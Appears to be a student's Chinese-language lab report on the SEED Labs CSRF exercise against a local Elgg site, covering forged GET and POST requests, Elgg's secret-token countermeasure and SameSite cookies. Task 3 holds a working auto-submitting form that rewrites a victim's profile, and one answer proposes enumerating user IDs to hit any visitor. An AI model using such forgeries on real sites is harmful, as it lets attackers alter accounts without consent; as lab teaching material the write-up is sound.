



# CRSF Attack Lab

## Experimental Principle

### 跨站请求伪造（Cross-Site Request Forgery）

跨站请求伪造（Cross-Site Request Forgery，简称CSRF）是一种网络攻击方式，攻击者通过伪造用户的请求，利用用户在目标网站的身份认证，执行未授权的操作。CSRF攻击的核心在于利用用户的身份认证信息（如Cookie），在用户不知情的情况下，向目标网站发送恶意请求。


### 响应(request)的两种形式

在HTTP传输过程中，产生的响应形式一般分成两种。一种是**GET**型，另一种是**POST**型。

这两种request形式的区别是请求变量所处的位置不同。POST中这个变量存在于HTTP message之中。

---


## Lab Environment Setup

在本实验中，我们将使用三个网站。

第一个网站是易受攻击的 Elgg 网站，可访问 www.seed-server.com。

第二个网站是攻击者用于攻击 Elgg 的恶意网站。该网站可通过 www.attacker32.com 访问。

第三个网站用于防御任务，其主机名为www.example32.com。

我们使用容器来设置实验室环境。

我们进入 `LabSetup` 并启动容器：

```bash
dcbuild
dcup
```


为了方便操作，我们修改 `/etc/hosts` 文件，使网站名与主机对应。

```shell
sudo vim /etc/hosts
```

添加如下内容：

```tex
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com
```

我们访问 www.seed-server.com ：



实验提供了初始账号：

| 用户名  | 密码        |
| ------- | ----------- |
| admin   | seedelgg    |
| alice   | seedalice   |
| boby    | seedboby    |
| charlie | seedcharlie |
| samy    | seedsamy    |

---


## Task 1: Observing HTTP Request.

在跨站请求伪造攻击中，我们需要伪造HTTP请求。

因此，我们需要知道合法的 HTTP 请求是什么样的以及它使用哪些参数等。

我们可以使用一个名为 HTTP Header Live 的 Firefox 插件来实现此目的。此任务的目标是熟悉该工具。

我们使用 `Alice` 的账号登录，发现 HTTP Header Live 捕获了以下内容：


这个 POST 请求明显是登录请求，登录的账号密码包含在了请求体中。

---


## Task 2: CSRF Attack using GET Request

在这个任务中，我们需要 Elgg 社交网络中的两个人：Alice 和 Samy。 

Samy 想成为 Alice 的朋友，但 Alice 拒绝将他添加到她的 Elgg 朋友列表中。 

Samy 决定使用 CSRF 攻击来实现他的目标。他向 Alice 发送一个 URL（通过电子邮件或在 Elgg 中发帖）； 

Alice 对此感到好奇，点击了 URL，这将她引导至 Samy 的网站：www.attacker32.com。

假设您是 Samy，描述如何构建网页内容，以便一旦 Alice 访问该网页，Samy 就会被添加到 Alice 的好友列表中（假设 Alice 与 Elgg 有活跃会话）。


为了给受害者添加好友，我们需要识别合法的添加好友 HTTP 请求（GET 请求）是什么样的。

我们需要加 Alice 为好友。登录 Samy 账号，点进 Alice 主页，点击 Add friend：


可以看到加好友的方法为 GET，我们看一下请求的 url :

```shell
http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1733257785&__elgg_token=IaM6q1cXvn4nqMXzR1Ujig
```

可以看到加好友的请求格式为：`http://www.seed-server.com/action/friends/add?friend=?&__elgg_ts=?&__elgg_token=?`

可以看到请求参数中有很多参数，`friend=56` 猜测应该是 `alice` 的 userid。

`elgg ts` 和 `elgg token` 查阅实验文档后得知：

是这些参数由对策使用因此如果它们不包含正确的值，则 Elgg 将不会接受该请求。我们已经禁用了该实验室的对策，因此不需要在伪造的请求中包含这两个参数。

我们 F12 打开一下网页的源码：



可以看到 userid 是明文存储，56 确实是 `Alice` 的 userid。

我们找到自己的 userid 为 59。

这里按照手册，应当去修改 seedlabs 给我们的网页。

但根据一位大佬的博客：[ch3nyang](https://blog.ch3nyang.top/post/seedlab_CSRF/) 的思路，我们只需要编辑个人资料，内容如下。

```shell

```


img 标签会自动发送 GET 请求，这样 `Alice` 点进 `Samy` 的个人资料时会自动发送添加好友的请求。

但我们登录 `Alice` 账号后看到的却是这样：


可以看到 `>` 被转义为了 `&gt` ，攻击并没有成功（看来这个漏洞已经被堵上了）。

于是我们还是按照实验文档的思路，在 www.attacker32.com 上编写攻击脚本。

我们修改 attacker 的 index.html 文件为：

```html
<!DOCTYPE html>
<html>
<head>
<titlei>Useful Website!
</head>
<body>
<p>No Page Available</p>

</body>
</html>
```

我们设置标题为 Useful Website!，并添加了一个 img 标签，将请求链接藏在里面。

这样只要有人点击进 www.attacker32.com 就会自动触发加好友的请求。

我们登录 `Samy` 并发布该网站：


此时 `Alice` 看到了并点进了网站：


返回之后发现已经添加了 `samy` 的好友：


---

## Task 3: CSRF Attack using POST Request

将自己添加到 `Alice` 的好友列表后，`Samy` 想做更多事情。

他希望 `Alice` 在她的个人资料中说 “Samy is my hero”，这样每个人都知道这一点。

`Samy` 计划使用 CSRF 攻击来实现这一目标。这就是本次任务的目的。


我们需要修改 `Alice` 的 profile。登录 `Samy` 账号，我们先试着修改自己的 profile。保存后看到发出了如下请求：


可以看到请求方式为 POST, url 为：`http://www.seed-server.com/action/profile/edit`

参数有：`name`(用户名）, `briefdescription`（用户简介）, `accesslevel[i]`（修改 i 部分的权限，2为公开）, `guid`（用户 id）

接下来我们编写攻击脚本，修改 attaker 的 `editprofile.html` 文件为：

```javascript
<html>
<body>
    <h1>This page forges an HTTP POST request.</h1>
    
    <script type="text/javascript">
        function forge_post() {
            var fields = ""; // 用于存储表单的字段
            fields += "<input type='hidden' name='name' value='Alice'>";                  // 添加隐藏字段 'name'，值为 'Alice'
             // 添加隐藏字段 'briefdescription'，值为 'Samy is my Hero'
            fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";   
            // 添加隐藏字段 'accesslevel[briefdescription]'，值为 '2'
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
            // 添加隐藏字段 'guid'，值为 '56'
            fields += "<input type='hidden' name='guid' value='56'>";


            var p = document.createElement("form");		            // 创建一个新的表单元素
            p.action = "http://www.seed-server.com/action/profile/edit";              // 设置表单的提交目标 URL
            p.innerHTML = fields; // 将上面定义的隐藏字段添加到表单的内部 HTML 中           
            p.method = "post";   // 设置表单的提交方法为 POST

            // 将表单添加到当前页面的 DOM 中（页面的 body 部分）
            document.body.appendChild(p);
            // 自动提交表单，向目标服务器发送伪造的 POST 请求
            p.submit();
        }

        // 在页面加载完成后，自动执行 forge_post() 函数
        window.onload = function() { forge_post(); }
    </script>
</body>
</html>

```

可以预想到，只要 `Alice` 打开了链接，表单就会自动提交并执行攻击脚本。

接下来，同样是设置钓鱼链接：http://www.attacker32.com/editprofile.html


此时 `Alice` 点击链接：


可以看到个人资料已经被修改了。

> Q1：伪造的HTTP请求需要Alice的用户id（guid）才能正常工作。如果Boby专门针对Alice，在攻击之前，他可以想方设法获取Alice的用户id。 Boby不知道Alice的Elgg密码，因此他无法登录Alice的帐户来获取信息。请描述 Boby 如何解决这个问题。

A1：可以与Alice 互动时观察报文获得，比如：添加Alice为好友时，利用Header live查看请求也能够确定Alice的id。

> Q2：Boby是否想对访问他的恶意网页的任何人发起攻击。在这种情况下，他事先并不知道谁正在访问该网页。他还能发起CSRF攻击来修改受害者的Elgg资料吗？请解释一下。

A2：可以，虽然我们并不知道访问网站用户的userid，但是我们可以暴力枚举所有用户修改主页的POST请求，也可以攻击成功。

---

## Task 4: Enabling Elgg’s Countermeasure

为了防御 CSRF 攻击，Web 应用程序可以在其页面中嵌入secret token。

所有来自这些页面的请求都必须携带该token，否则将被视为跨站请求，并且不会具有与同站请求相同的权限。

攻击者将无法获得此 token，因此他们的请求很容易被识别为跨站点请求。


我们接下来要开启这个对策。

修改`Csrf.php` 其中的 token 验证部分：

（注意：由于 LabSetup 中的 image_www 文件夹并没有挂载在 elgg-10.9.0.5 上，我们只修改 image_www 中的 Csrf.php 是不行的

我们需要修改 elgg-10.9.0.5 的 `/var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security/Csrf.php` 才能起效果）


注释掉 `return` 使其能够正常认证。

我们先清空一下 `Alice` 的 profile。

此时再重复一遍 Task3 的过程：


可以看到由于修改失败，页面重新加载，又发送了一次请求，导致页面一直在发送请求。

返回后发现攻击并未生效。


我们再重复一下 Task2 ：


可以看到由于缺少了 token 和 ts 导致无法通过验证，也失败了。

---

## Task 5: Experimenting with the SameSite Cookie Method

现在大多数浏览器都实现了一种称为 SameSite cookie 的机制，它是与 cookie 相关的属性。

当发送请求时，浏览器会检查该属性，并决定是否在跨站请求中附加cookie。

如果 Web 应用程序不希望将 cookie 附加到跨站点请求，则可以将 cookie 设置为 SameSite。

例如，他们可以将会话ID cookie标记为SameSite，这样任何跨站请求都无法使用该会话ID，从而无法发起CSRF攻击。


实验提供了一个网站：www.example32.com

一旦您访问过该网站一次，浏览器上将设置三个 cookie：cookie-normal、cookie-lax 和 cookie-strict。

第一个 cookie 只是普通的 cookie，第二个和第三个 cookie 是两种不同类型（Lax 和 Strict 类型）的同站点 cookie。


我们打开 www.example32.com：



链接 A 指向 example32.com 上的页面，而链接 B 指向attacker32.com 上的页面。

两个页面完全相同（除了背景颜色），并且都向 www.example32.com/showcookies.php 发送三种不同类型的请求，后者仅显示浏览器发送的 cookie。


先对链接 A 进行请求测试（即 same-site request），发现 link , get-form, post-form 请求均发送了 normal, lax, strict三种类型的 cookie。


再链接 B 进行请求测试（即 cross-site request），发现 link , get-form 请求均没有发送 cookie-strict，post-form 请求则只发送了 cookie-normal。


可以看到三种 cookie 的差异：

>Strict
>完全禁止跨站传递Cookie，比如A网站通过超链接跳转B网站也不行，必须用户手动输入这个B网站浏览器才允许使用B网站的Cookie。
>过于严格，很少使用。
>
>Lax
>相对宽松(reLax)的规则，大部分情况也不允许跨站传递Cookie，但是对于较为安全的场景：超链接跳转，get类型的Form表单，是允许的。
>这个模式是大部分浏览器的SameSite的默认取值（当服务端SetCookie没有制定SameSite时，大部分现代浏览器会默认使用Lax）。
>使用Lax已经能够杜绝CSRF攻击。
>
>Normal
>完全没有限制。
>老版本浏览器默认仍然会使用None作为SameSite的默认取值。
>
>大部分现代浏览器默认是Lax。
>以及None默认过于危险，如果要使用SameSite=None则浏览器会要求网站服务使用https才行。

---

## Summary

主要学习了：

- http 请求的 GET 和 POST 请求
- Csrf 攻击的原理
- Csrf 攻击的防御策略

